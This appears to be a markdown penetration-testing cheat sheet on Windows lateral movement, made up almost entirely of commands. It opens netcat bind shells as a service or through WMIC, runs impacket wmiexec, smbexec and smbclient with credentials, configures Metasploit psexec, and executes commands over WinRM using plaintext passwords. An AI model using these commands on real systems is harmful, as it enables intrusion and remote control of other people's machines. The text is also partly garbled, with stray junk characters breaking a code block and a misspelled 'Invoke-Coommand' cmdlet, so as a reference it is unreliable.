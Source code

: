 # Lateral Movement
## Windows
### Bind Shell as a service
```cmd
sc \\machinename create ncservice binpath= "cmd.exe /k c:\tools\nc.exe -nvlp 2222 -e cmd.exe"
```
### Bind shell with WMIC - Local Machine
```cmd
wmic /node:machinename process call create "c:\tools\nc.exe -nvlp 4444 -e cmd.exe" 
```
### Bind shell with WMIC - Remote Machine
```cmd
wmic /node:machinename /user:username /password:Password process call create "c:\tools\nc.exe -dnvlp 4444 -e cmd.exe" 
```
### wmiexec.py
```bash
wmiexec user:pass@<IP>
```
### smbexec.py - not interactive
```bash
smbexec user:pass@<IP>
```
### smbclient.py
```bash
smbclient hitbox/user:pass@<IP>
```hjcxjj
"X"H??mu ]"?///////
### lookupsid
```bash
lookupusersid hitbox/user:pass@<IP>
```
### meterpreter
```bash
use exploit/windows/smb/psexec
set smbuser
set smbpass
set smbdomain
set rhost
set lhost
```

### Winrm and Powershell Remoting
#### Test if WinRM is Running
```powershell
Test-WSMan -ComputerName <hostname>
```
#### Test if WinRM Port is Open
```powershell
Test-NetConnection -ComputerName <hostname> -CommonTCPPort WINRM
```
#### Run command on the system with passthrough authentication
```powershell
Invoke-Coommand -ComputerName <hostname> -port 5985 -ScriptBlock {Command}
```
#### Run command on the system with Alternate Credentials = GUI
```powershell
$cred = Get-Credential
Invoke-Coommand -ComputerName <hostname> -port 5985 -Credential $cred -Authentication Negotiate -ScriptBlock {Command}
```
#### Run command on the system with Alternate Credentials = GUI
```powershell
$cred = New-Object System.Management.Automation.PSCredential ('Username', ConvertTo-SecureString 'Password' -AsPlainText -Force)
Invoke-Coommand -ComputerName <hostname> -port 5985 -Credential $cred -Authentication Negotiate -ScriptBlock {Command}
```
